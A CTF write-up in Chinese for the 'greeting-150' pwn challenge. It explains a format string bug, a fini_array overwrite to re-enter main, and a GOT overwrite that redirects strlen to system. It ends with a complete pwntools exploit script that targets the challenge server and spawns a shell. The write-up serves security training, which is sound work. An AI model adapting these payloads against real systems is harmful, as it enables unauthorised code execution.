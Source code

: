 # greeting-150  
32位程序，没开RELRO，说明1可以淦got表，没开pie说明可以随便打    
![](./pics/chc.png)  
在main函数中存在格式化字符串漏洞，可以实现任意地址写  
## 解题思路  
由于程序中存在system函数，可以想让strlen.got处的值变为system.plt，就能在调用strlen时实际调用system函数了  
但是由于执行到格式化字符串后程序直接退出了，因此需要让程序执行完main后重新回到main函数开头  
为此我们需要先知道main函数的调用过程  
在start函数中，会有init_array与fini_array两个数组，他们都保存着一些函数的地址，并且在调用main之前依次调用init_array中的函数，并在main函数结束后依次调用fini_array中的函数  
![](./pics/start.png)  
![](./pics/init_fini_array.png)  
使用pwndbg查看  
![](./pics/fini_in_gdb.png)
因此把fini_array中的函数地址改为main函数地址（最后一字节改为0xed即可）后就能重复调用main了  
## 解题过程  
首先payload需要有2字节进行对齐（字符串s的开头是Nice to meet you, ），调试后发现第一个参数对应的索引为12，后面都没什么难度，直接放改完后的情况  
![](./pics/finish1.png)  
![](./pics/finish2.png)  
PS:这里很多博客都在人云亦云，说什么一定要按填充字符数从小到大的顺序，其实并不需要，我这里注释掉的部分和实际写的部分就是可以互相替换的。  
```
from pwn import *
context.log_level = 'debug'

if len(sys.argv) == 1 or sys.argv[1] == 'l':
    p = process('./greeting-150')
    elf = ELF('./greeting-150')
else:
    p = remote('61.147.171.105', 51865)
    elf = ELF('./greeting-150') 
    pause()
p.recvuntil(b'name... ')
pause()
# 字符串起始位置对应第12个参数
fini_got=0x8049934
getlen_got=0x8049a54
# payload=b'aa'
# payload+=p32(fini_got)+p32(getlen_got+2)+p32(getlen_got)
# payload+=b'%205c%12$hhn%1815c%13$hn%31884c%14$hn'
payload=b'aa'
payload+=p32(fini_got)+p32(getlen_got+2)+p32(getlen_got)
payload+=b'%205c%12$hhn%33699c%14$hn%33652c%13$hn'

p.sendline(payload)
p.recvuntil(b'name... ')
p.sendline(b'/bin/sh\x00')

p.interactive()
```